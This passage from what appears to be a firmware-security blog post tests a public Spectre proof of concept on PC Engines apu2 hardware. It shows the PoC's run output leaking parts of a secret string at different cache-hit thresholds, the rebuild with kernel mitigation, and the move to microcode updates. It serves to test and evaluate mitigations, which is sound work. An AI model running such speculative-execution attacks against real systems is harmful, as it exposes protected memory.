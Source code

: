 > One can see that the secret string was not disclosed (0xFF=? everywhere).
> Let's increase the cache hit threshold.

```bash
./spectre.out 70
Version: commit 856f80f2937f2bb812cab68d45c149272a1783d5
Using a cache hit threshold of 70.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED INTEL_MITIGATION_DISABLED LINUX_KERNEL_MITIGATION_DISABLED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfeeb8... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeeb9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfeeba... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeebb... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeebc... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeebd... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeebe... Success: 0x67=’g’ score=2
...
Reading at malicious_x = 0xffffffffffdfeed9... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfeeda... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeedb... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfeedc... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeedd... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfeede... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeedf... Success: 0xFF=’?’ score=0
```

One can see that positive results are obtained with a larger value of cache hit
threshold (with 70 some characters have not been obtained - score 0, 100 is
sufficient to get whole string - score 2 everywhere). It is related to CPU
performance.

> For those more interested in details of the attack, please refer to
> [Spectre Attacks](https://spectreattack.com/spectre.pdf) or to my
> [previous post](https://blog.3mdeb.com/2019/2019-03-14-meltdown-and-spectre-vulnerabilities/)
> introducing the Meltdown and Spectre.

Let's also check out the kernel mitigation. Rebuild the PoC with:

```bash
make clean
CFLAGS=-DLINUX_KERNEL_MITIGATION make
```

After trying to run the PoC with 20/70/100 the string is not disclosed. But what
if the kernel we use does not have the mitigation? The answer is firmware and
microcode for full hardware mitigation.

## Microcode update and spectre

To present results of Spectre vulnerability without kernel mitigation, we will
need the microcode update. For details how to build PC Engines apu2 coreboot
firmware with microcode update, please refer to this
[guide](https://github.com/pcengines/apu2-documentation/blob/master/docs/microcode_patching.md)
